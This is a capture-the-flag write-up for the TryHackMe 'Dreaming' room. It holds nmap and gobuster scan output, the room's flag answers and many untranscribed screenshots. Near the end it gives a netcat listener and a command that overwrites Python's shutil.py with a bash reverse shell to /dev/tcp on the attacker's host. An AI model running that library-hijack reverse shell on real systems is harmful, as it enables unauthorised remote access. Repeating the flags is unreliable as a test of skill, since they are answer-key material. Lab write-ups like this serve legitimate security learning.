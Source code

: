 <p align="center">November 6, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Dreaming &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}}$$
</h1>
<p align="center">Solve the riddle that dreams have woven..</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/dreaming">Dreaming</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/2114a0d6-560b-450b-b9f8-b1c32ac26b31">
  <img height="150px" src="https://github.com/user-attachments/assets/11edef91-195e-4208-8842-540dc9f815a7">
</p>

<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Recover the Kingdom](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Lucien](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Death](#3) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Morpheus](#4) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp;[Room Complete](#5) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [My journey](#6)

<br>
<br>
<br>
<h2>Task 1. Recover the Kingdom!<a id='1'></a></h2>

<br>
<p align="center">While the king of dreams was imprisoned, his home fell into ruins.<br>
Can you help Sandman restore his kingdom?</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>
<br>

> 1.1. <em>What is the Lucien Flag?</em><br><a id='2'></a>
>> <code><strong>THM{TH3_L1BR4R14N}</strong></code><br><br>

<pre><code>root@ip-[Attack_IP]:~/Dreaming# nmap -sC -sV [Target_IP]

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-07 02:50 GMT
Nmap scan report for ip-[Target_IP].eu-west-1.compute.internal ([Target_IP])
Host is up (0.00037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:EB:CF:87:A9:37 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds
root@ip-[Attack_IP]:~/Dreaming# 
</code></pre>

<br>

<pre><code>root@ip-[Attack_IP]:~/Dreaming# gobuster dir -u http://[Target_IP] -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[Target_IP]
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/app                  (Status: 301) [Size: 308] [--> http://[Target_IP]/app/]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 276]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~/Dreaming# 
</code></pre>

<br>

![image](https://github.com/user-attachments/assets/bc02a816-5cf0-4601-b3df-da9f550dd7fc)

<br>

![image](https://github.com/user-attachments/assets/782e48ce-568a-428c-8ec3-a0a72b1ea93f)

<br>

![image](https://github.com/user-attachments/assets/334f82cc-8eff-420a-baf6-6491e757a8b2)


![image](https://github.com/user-attachments/assets/fd76bf16-5b01-40b9-b6f1-6e74cffe3d3c)

<br>

![image](https://github.com/user-attachments/assets/4af5de84-4265-48ec-bd92-9b3106c55bf2)

<br>

![image](https://github.com/user-attachments/assets/b3adcf61-b7c6-4fb6-bb68-e81b8bcf31e7)


<br>

![image](https://github.com/user-attachments/assets/4d08434e-5640-4512-8a8d-055e9f6144e3)

<br>


![image](https://github.com/user-attachments/assets/45250975-64b2-4618-96b5-6bb716313468)

<br>

![image](https://github.com/user-attachments/assets/4916b5a7-3f68-4ecb-900a-5ccc5f8256df)

![image](https://github.com/user-attachments/assets/5f0c0caa-c3a5-4263-94c1-628fc4e21f52)

![image](https://github.com/user-attachments/assets/ef719f69-c44b-41c9-b924-0792bf395c89)

![image](https://github.com/user-attachments/assets/68ebeebf-a4b1-4ee6-b62e-cd46858709fb)

![image](https://github.com/user-attachments/assets/7a143b4b-b679-47a3-9476-6bef6154842e)

![image](https://github.com/user-attachments/assets/88d5c838-399a-4a75-b21a-c9379215446f)

![image](https://github.com/user-attachments/assets/bfc77dee-c990-4d95-aab1-4488f4e836ff)

![image](https://github.com/user-attachments/assets/e44ca9b7-59bf-4b7f-bf69-c47d6525c5b7)

![image](https://github.com/user-attachments/assets/10767471-a71d-4e7f-bd8d-0ce627954d51)

![image](https://github.com/user-attachments/assets/08068aa8-3285-4123-ba7f-1d9ee548864c)

![image](https://github.com/user-attachments/assets/ab445633-5bb1-499a-b4df-2585a8905614)

![image](https://github.com/user-attachments/assets/f966bd82-4c8d-4a2d-9781-6afd46a0deb9)

![image](https://github.com/user-attachments/assets/dd40f283-5fba-4cbf-9a14-a41ef2b6e667)

![image](https://github.com/user-attachments/assets/e56cf1dc-16b6-4094-8152-ed84c3217782)

![image](https://github.com/user-attachments/assets/9b2b716f-ff1d-4708-b720-0e9f588ee91a)

![image](https://github.com/user-attachments/assets/ff2800c1-b5a2-4fb4-9c22-c8668e93a5ce)

![image](https://github.com/user-attachments/assets/329bd066-9a0d-42ac-bb8c-453e4f2758d2)

<br>

> 1.2. <em>What is the Death Flag?</em><br><a id='3'></a>
>> <code><strong>THM{1M_TH3R3_4_TH3M}</strong></code><br>

![image](https://github.com/user-attachments/assets/d52108f7-5b85-4f33-bbff-b8a3531fedc1)

![image](https://github.com/user-attachments/assets/1a7c3741-413f-4da3-8a97-e92cb3e38dd1)

![image](https://github.com/user-attachments/assets/31a9264b-9048-43fa-b964-59b3a6ab0453)

![image](https://github.com/user-attachments/assets/01f82d3d-2bbf-4870-affa-a96585586b63)

<br>

![image](https://github.com/user-attachments/assets/50ccdd15-8b50-40c4-b983-b96c45d38839)

<br>

> 1.3. <em>What is the Morpheus Flag?</em><br><a id='4'></a>
>> <code><strong>THM{DR34MS_5H4P3_TH3_W0RLD}</strong></code><br><br>

![image](https://github.com/user-attachments/assets/5a6ca1d3-4b61-490c-9980-f36731e6a87f)

<br>

<pre><code>$ find / type f -group morpheus 2>dev/null
</code></pre>

<br>

<pre><code>root@ip-[Attack_IP]:~/Dreaming# nc -nvlp 4444
</code></pre>

<br>

<pre><code>death@dreaming:/$ echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[Attack_IP]/[Attack_Port] 0>&1'\")" > /usr/lib/python3.8/shutil.py
</code></pre>

<br>

![image](https://github.com/user-attachments/assets/41d937b6-954f-42af-a92b-fee86b4d44e0)

<br>

![image](https://github.com/user-attachments/assets/bec30477-f483-4659-b661-c99c7a98d18a)




<h2>Room Complete<a id='5'></a></h2>
<p>Keep learning, keep growing!<br>



<h2>My Journey<a id='6'></a></h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     |
| :---------------: | :------- | :----------- | :----------- | :---------- | :--------- | :------  | :-------- |
|                   |          | WorldWide    | Brazil       | WorldWide   | Brazil     |          | Completed |
| November 6, 2024  | 184      |       1,297ª |          28ª |      4,428ª |        65ª | 53,700   |       402 |


<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>


